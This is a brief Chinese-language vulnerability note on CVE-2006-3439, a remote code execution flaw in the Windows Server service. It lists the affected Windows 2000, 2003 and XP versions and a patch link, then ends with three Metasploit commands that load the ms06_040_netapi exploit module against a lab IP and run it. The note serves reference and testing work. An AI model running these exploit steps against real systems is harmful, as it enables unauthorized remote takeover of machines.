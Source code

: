 ###  CVE-2006-3439

#### 描述

服务器服务中的缓冲区溢出允许包括匿名用户在内的远程攻击者通过精心制作的RPC消息执行任意代码

#### 影响版本

| Product             | Version | Update | Edition   | Tested |
| ------------------- | ------- | ------ | --------- | ------ |
| Windows 2000        |         | SP4    |           |        |
| Windows 2003 Server | R2      |        |           |        |
| Windows 2003 Server | SP1     |        |           |        |
| Windows 2003 Server | SP1     |        | Itanium   |        |
| Windows 2003 Server | 64-bit  |        |           |        |
| Windows 2003 Server | Itanium |        |           |        |
| Windows Xp          |         | SP1    | Tablet Pc |        |
| Windows Xp          |         | SP2    | Tablet Pc |        |
| Windows Xp          |         |        | 64-bit    |        |

#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2006-3439
```

#### 利用方式

msf 利用 测试系统windows server 2000 sp4 x86

```
use exploit/windows/smb/ms06_040_netapi
set RHOST 192.168.1.17
run
```

